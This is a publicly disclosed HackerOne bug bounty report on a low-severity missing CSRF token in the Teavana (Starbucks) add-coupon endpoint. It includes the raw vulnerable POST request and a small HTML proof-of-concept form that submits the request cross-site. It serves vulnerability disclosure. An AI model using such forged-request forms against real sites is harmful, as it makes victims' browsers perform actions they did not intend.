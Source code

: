 # Missing CSRF Token On Add Coupon To Basket

## Report Details
- **Report ID**: 227725
- **URL**: https://hackerone.com/reports/227725
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-05-11T15:58:00.382Z
- **Disclosed**: 2019-01-22T23:22:45.649Z

## Reporter
- **Username**: apapedulimu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
Hi,
When Adding Coupun It's missing CSRF Token, and at this time, i use `BOGO50` Coupun to reproduce it.

__Vuln Request__
```
POST /on/demandware.store/Sites-Teavana-Site/default/Home-AddCouponToBasket?couponcode=BOGO50&format=ajax HTTP/1.1
Host: www.teavana.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:53.0) Gecko/20100101 Firefox/53.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Cookie: <some cookie>
Connection: close
Upgrade-Insecure-Requests: 1

```

__PoC Code__
```
<html>
<body>
<form action="https://www.teavana.com/on/demandware.store/Sites-Teavana-Site/default/Home-AddCouponToBasket?couponcode=BOGO50&format=ajax" method="POST">
<input type="hidden" name="" value="" />
<input type="submit" value="Submit request" />
</form>
</body>
</html>
```

Thanks, 
If you need video, i will create one !

## Attachments
No attachments
